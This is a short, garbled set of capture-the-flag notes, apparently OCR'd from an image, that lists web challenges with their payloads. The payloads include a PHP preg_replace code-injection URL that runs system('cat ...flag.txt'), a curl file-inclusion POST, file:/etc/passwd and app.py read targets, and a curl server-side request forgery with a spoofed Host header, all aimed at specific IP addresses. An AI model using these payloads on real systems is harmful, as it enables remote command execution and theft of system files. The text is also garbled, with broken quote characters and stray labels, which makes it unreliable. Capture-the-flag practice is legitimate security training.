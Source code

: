 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion


File:/etc/passwd      File:/home/ctf/app.py
curl -X POST \
-H 'Host: company.tld' \
--data 'url=http://34.141.113.155:32567' \
http://34.141.113.155:32567/


                                                   LFI  Ultra-Crawler
